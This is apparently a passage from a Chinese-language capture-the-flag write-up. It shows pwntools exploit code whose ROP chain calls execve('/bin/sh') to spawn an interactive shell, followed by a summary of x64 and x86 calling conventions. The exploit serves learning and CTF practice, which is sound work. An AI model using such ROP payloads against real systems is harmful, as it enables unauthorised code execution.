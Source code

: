 ```python
# 发送第一个有效负载
send_payload(payload)

# 构造第二个有效负载，包含ROP链
payload = flat(
    {
        0x00: [u64_ex(b"/bin/sh\x00"), 0x2222, 0x3333, 0x4444, new_stack + 0x10],  # 准备数据并调整RBP
        0x28: [
            try_addr + 1,        # 再次覆盖返回地址到'banner'函数的try块
            0x4DE4B0,            # 占位符或特定地址（可能用于对齐）
            pop_rdi_ret,         # 设置RDI寄存器
            0x31336FE0,          # 指向"/bin/sh\x00"字符串的地址
            pop_rsi_ret,         # 设置RSI寄存器
            0,                   # RSI设为0（NULL）
            pop_rdx_2_ret,       # 设置RDX和另一个寄存器
            0x31337010,          # RDX的值（可能为NULL或特定值）
            0,                   # 第二个弹出的寄存器值（如RBX）
            pop_rax_ret,         # 设置RAX寄存器
            0x3B,                # 系统调用号59，表示execve
            syscall_ret,         # 触发系统调用
        ],
    }
)
# 发送第二个有效负载
send_payload(payload)

# 进入交互模式，与shell交互
io.interactive()

```

## 零解题2
> 这个题使用了Intel CET提供的影子栈保护




### 总结
> 入栈顺序：
1. Windows x64 Calling Convention
   - 前四个整型参数分别是rcx, rdx, r8, r9传递
   - 前四个浮点参数分别是xmm0, xmm1, xmm2, xmm3传递
   - 其他参数通过栈传递，从右往左依次入栈
   - 返回值通过rax返回

2. System V x64 Calling Convention（Linux/macOS）
   - 前六个整型参数分别是rdi, rsi, rdx, rcx, r8, r9传递
   - 前八个浮点参数分别是xmm0, xmm1, xmm2, xmm3, xmm4, xmm5, xmm6, xmm7传递
   - 超过六个参数的其他参数通过栈传递，从右往左依次入栈
   - 返回值通过rax返回或者rdx:rax返回（用于返回两个整数值的情况）

3. x86（32位）
   - 所有参数通过栈传递，从右往左依次入栈
